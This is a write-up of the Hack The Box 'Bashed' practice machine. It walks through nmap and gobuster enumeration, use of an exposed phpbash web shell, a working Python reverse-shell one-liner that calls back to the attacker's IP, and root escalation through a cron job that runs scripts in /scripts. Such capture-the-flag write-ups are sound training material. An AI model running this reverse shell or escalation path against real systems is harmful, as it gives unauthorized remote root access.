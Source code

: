 Title: HTB Bashed box writeup
Tags: oscp, htb
Summary: Walkthrough for this one
Date: 01/09/2020 12:30
Status: published

# Enumeration
Let's start with -sS all TCP range since we are not limited in traffic and not afraid of IDS:
<pre>
    # Nmap 7.80 scan initiated Tue May 12 19:05:00 2020 as: nmap -sS -p- -oA enum/nmap-ss-t-all 10.10.10.68
    Nmap scan report for bashed.htb (10.10.10.68)
    Host is up (0.061s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE
    80/tcp open  http

    # Nmap done at Tue May 12 19:06:30 2020 -- 1 IP address (1 host up) scanned in 90.26 seconds
</pre>
Not so much eh. I tried to run sU scan in the background and found nothing interesting. Looks like the webserver is
the way in. Spin up gobuster scan to find something interesting and while it's running let's go and see what's
interesting is there. Both `10.10.10.68` and `bashed.htb` which I added to `/etc/hosts`, leads to the same page
with some interesting info:

![phpbashed page](/cstatic/htb-bashed/phpbash-web.png)

There might be that shell somewhere in there. I also manually inspected source code of this page to try to find
some interesting details, but found only usual stuff like `/images` directory. At the time gobusted did his work:
<pre>
    /.htaccess (Status: 403)
    /.htpasswd (Status: 403)
    /css (Status: 301)
    /dev (Status: 301)
    /fonts (Status: 301)
    /images (Status: 301)
    /js (Status: 301)
    /php (Status: 301)
    /server-status (Status: 403)
    /uploads (Status: 301)
</pre>
`/dev` entry looks very promising, especially with the fact that blog admin stated that he was developing php shell
on this server. Indeed this dir is listable and there are some web phpbash shells in there:

![phpbash shell](/cstatic/htb-bashed/php-web-shell.png)

There is netcat on this box, but it was compiled w/o `-e` option. I tried to sent back bash revshell via `/dev/tcp`
but it seems that current user has no access to this subsystem, so I used python reverse shell oneliner instead:
```python
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("10.10.14.13",53))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/bash", "-i"])
```
Just wrapped it in one line with semicolons and run it with `python3 -c`. Interactive unpriv shell:

![unpriv shell](/cstatic/htb-bashed/unpriv-shell.png)

# Privilege escalation
We could run sudo w/o password as scriptmanager:

![sudo scriptmanager](/cstatic/htb-bashed/sudo-l.png)

This user owns some interesting directory under root:

![scriptmanager dir](/cstatic/htb-bashed/scriptmanager-files.png)

There are only two files in this directory, one simple python  script and a txt file:

![scripts](/cstatic/htb-bashed/scripts.png)

Notice that while the `test.py` owned by scriptmanager:scriptmanager, `test.txt` is owned and
only writable by root. This is a direct hint that `test.py` might have been executing with
root privileges in some way, first thought was that there is a cron job that runs it. I found nothing
useful in cron folders, crontab file or `/var/log` so I've uploaded [pspy](https://github.com/DominicBreuker/pspy)
and my hypothesis turned out to be right:

![cron hit](/cstatic/htb-bashed/cron.png)

The job will run every `.py` file in `/scripts` so we could just reuse our reverse shell from
above to acquire root privileges:

![root shell](/cstatic/htb-bashed/root-shell.png)
